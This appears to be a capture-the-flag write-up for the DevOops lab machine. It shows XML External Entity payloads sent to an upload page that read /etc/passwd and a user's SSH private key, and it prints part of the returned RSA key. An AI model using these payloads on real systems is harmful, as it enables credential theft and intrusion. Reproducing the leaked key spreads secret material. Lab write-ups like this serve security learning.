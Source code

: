 Let’s visit the /upload page:

![image.png]({{ site.baseurl }}/assets/devoops/image%201.png)

Seems we can upload XML files. We also need Author, Subject, Content as its elements.

Let’s try uploading a xml file with the above elements

```bash
<Something>
<Author>Bob</Author>
<Subject>HIsotry</Subject>
<Content>something</Content>
</Something>
```

It worked:

![image.png]({{ site.baseurl }}/assets/devoops/image%202.png)

Now let’s try local file disclosure with xxe attack, where we can define an external entity, that references a local file we know exist e.g. /etc/passwd. Let’s see if this works; * we also note down the file path:

```bash
<!DOCTYPE any [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<Something>
<Author>&xxe;</Author>
<Subject>HIsotry</Subject>
<Content>something</Content>
</Something>
```

![image.png]({{ site.baseurl }}/assets/devoops/image%203.png)

It worked. We can now search for users and their private keys in .ssh dir. 

```bash
<!DOCTYPE any [
  <!ENTITY xxe SYSTEM "file:///home/roosa/.ssh/id_rsa">
]>
<Something>
<Author>&xxe;</Author>
<Subject>HIsotry</Subject>
<Content>something</Content>
</Something>
```

We get a private key back:

```bash
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAuMMt4qh/ib86xJBLmzePl6/5ZRNJkUj/Xuv1+d6nccTffb/7
9sIXha2h4a4fp18F53jdx3PqEO7HAXlszAlBvGdg63i+LxWmu8p5BrTmEPl+cQ4J
R/R+exNggHuqsp8rrcHq96lbXtORy8SOliUjfspPsWfY7JbktKyaQK0JunR25jVk
v5YhGVeyaTNmSNPTlpZCVGVAp1RotWdc/0ex7qznq45wLb2tZFGE0xmYTeXgoaX4
9QIQQnoi6DP3+7ErQSd6QGTq5mCvszpnTUsmwFj5JRdhjGszt0zBGllsVn99O90K
m3pN8SN1yWCTal6FLUiuxXg99YSV0tEl0rfSUwIDAQABAoIBAB6rj69jZyB3lQrS
JSrT80sr1At6QykR5ApewwtCcatKEgtu1iWlHIB9TTUIUYrYFEPTZYVZcY50BKbz
ACNyme3rf0Q3W+K3BmF//80kNFi3Ac1EljfSlzhZBBjv7msOTxLd8OJBw8AfAMHB
lCXKbnT6onYBlhnYBokTadu4nbfMm0ddJo5y32NaskFTAdAG882WkK5V5iszsE/3
koarlmzP1M0KPyaVrID3vgAvuJo3P6ynOoXlmn/oncZZdtwmhEjC23XALItW+lh7
e7ZKcMoH4J2W8OsbRXVF9YLSZz/AgHFI5XWp7V0Fyh2hp7UMe4dY0e1WKQn0wRKe
8oa9wQkCgYEA2tpna+vm3yIwu4ee12x2GhU7lsw58dcXXfn3pGLW7vQr5XcSVoqJ
Lk6u5T6VpcQTBCuM9+voiWDX0FUWE97obj8TYwL2vu2wk3ZJn00U83YQ4p9+tno6
NipeFs5ggIBQDU1k1nrBY10TpuyDgZL+2vxpfz1SdaHgHFgZDWjaEtUCgYEA2B93
hNNeXCaXAeS6NJHAxeTKOhapqRoJbNHjZAhsmCRENk6UhXyYCGxX40g7i7T15vt0
```